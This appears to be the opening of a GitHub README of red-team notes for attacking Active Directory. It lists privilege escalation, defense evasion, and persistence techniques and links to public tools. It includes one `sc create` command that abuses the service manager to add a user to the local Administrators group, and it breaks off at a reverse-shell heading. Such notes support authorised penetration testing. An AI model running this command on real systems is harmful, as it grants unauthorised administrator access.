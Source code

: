 # Red-Team-Notes
This repository contains notes for execution of attack scenarios in AD environments and some other useful commands.<br>
AD module can be found at [Microsoft](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps) or at [Nikhil's repo](https://github.com/samratashok/ADModule)

This repo is a collection of notes and commands that I keep on forgetting rather than reference to chain an attack.
# Contents

[1. Local Privilege Escalation](#1-local-privilege-escalation)

- 1.1 Scripts<br>
- 1.2 SCManager<br>

[2. Lateral Movement](#2-lateral-movement)

- 2.1 Explicit Creds<br>
- 2.2 Add hosts to trusted sources<br>
- 2.3 "Overpass the hash"

[3. Defense Evasion](#3-defense-evasion)

- 3.1 AMSI Bypass<br>
- 3.2 Disable Local Firewall<br>
- 3.3 Bypass UAC (fodhelper.exe)<br>
- 3.4 Bypass UAC (cmstp.exe)<br>
- 3.5 Bypass CLM

[4. Persistence](#4-persistence)

- 4.1 Local Persistence: Scheduled Tasks<br>
- 4.2 Domain Persistence: Silver Ticket<br>
- 4.3 Domain Persistence: Golden Ticket<br>
- 4.4 Domain Persistence: Skeleton Key<br>
- 4.5 Domain Persistence: DSRM<br>
- 4.6 Domain Persistence: Custom SSP

[5. Privilege Escalation](#5-privilege-escalation)

- 5.1 Constrained Delegation<br>
- 5.2 LAPS Passwords<br>
- 5.3 Resource-Based Constraint Delegation

[6. Miscellaneous Commands](#6-miscellaneous-commands)

# 1 Local Privilege Escalation
1.1 Scripts:
- PowerUp: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- BeRoot: https://github.com/AlessandroZ/BeRoot
- Privesc: https://github.com/enjoiz/Privesc

1.2 SCManager. Source: [https://recipeforroot.com/scmanger/](https://recipeforroot.com/scmanger/)
- First step is to run “sc sdshow scmanager” in cmd.exe which gives the permissions of what users/groups can access this service
- Create a service using the sc.exe command in a command prompt
sc create MyService displayName= "MyService" binPath= "C:\Windows\System32\net.exe localgroup Administrators itemployee21 /add" start= auto
# 2 Lateral Movement
2.1 Spawn Reverse Shell With Explicit Creds
